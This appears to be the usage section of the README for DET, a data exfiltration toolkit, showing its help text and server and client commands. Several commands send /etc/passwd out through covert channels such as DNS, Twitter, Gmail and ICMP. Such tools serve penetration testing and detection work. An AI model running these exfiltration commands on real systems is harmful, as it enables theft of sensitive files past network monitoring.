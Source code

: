 # Usage

## Help usage

```bash
python det.py -h
usage: det.py [-h] [-c CONFIG] [-f FILE] [-d FOLDER] [-p PLUGIN] [-e EXCLUDE]
              [-L]

Data Exfiltration Toolkit (SensePost)

optional arguments:
  -h, --help  show this help message and exit
  -c CONFIG   Configuration file (eg. '-c ./config-sample.json')
  -f FILE     File to exfiltrate (eg. '-f /etc/passwd')
  -d FOLDER   Folder to exfiltrate (eg. '-d /etc/')
  -p PLUGIN   Plugins to use (eg. '-p dns,twitter')
  -e EXCLUDE  Plugins to exclude (eg. '-e gmail,icmp')
  -L          Server mode
```

## Server-side: 

To load every plugin:

```bash
python det.py -L -c ./config.json
```

To load *only* twitter and gmail modules: 

```bash
python det.py -L -c ./config.json -p twitter,gmail
```

To load every plugin and exclude DNS: 

```bash
python det.py -L -c ./config.json -e dns
```

## Client-side:

To load every plugin: 

```bash
python det.py -c ./config.json -f /etc/passwd
```

To load *only* twitter and gmail modules: 

```bash
python det.py -c ./config.json -p twitter,gmail -f /etc/passwd
```

